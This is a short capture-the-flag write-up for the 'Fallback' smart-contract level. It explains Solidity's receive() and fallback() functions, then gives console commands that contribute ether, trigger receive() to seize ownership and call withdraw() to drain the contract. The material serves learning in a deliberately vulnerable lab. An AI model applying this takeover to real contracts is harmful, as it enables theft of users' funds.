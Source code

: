 # 1. Fallback

## Key

> receive()
> executes on calls to the contract with no data (calldata), e.g. calls made via send() or transfer().
> https://blog.soliditylang.org/2020/03/26/fallback-receive-split/

```
Which function is called, fallback() or receive()?

           send Ether
               |
         msg.data is empty?
              / \
            yes  no
            /     \
receive() exists?  fallback()
         /   \
        yes   no
        /      \
    receive()   fallback()

https://solidity-by-example.org/sending-ether/
```

## Solution

1. Becoming `owner`
   Contribute:

```js
> await contract.contribute({from: '0x4545c437d127B29bF0BB080DeEe97f159AB827d8', to: '0x734db95b58736156903AFdb35F4eaEf0A60E866C', value: 1});
```

Call receive() "fallback":

```js
> await contract.sendTransaction({from: '0x4545c437d127B29bF0BB080DeEe97f159AB827d8', to: '0x734db95b58736156903AFdb35F4eaEf0A60E866C', value: 1});
```

2. Withdrawing balance to 0

```js
contract.withdraw();
```
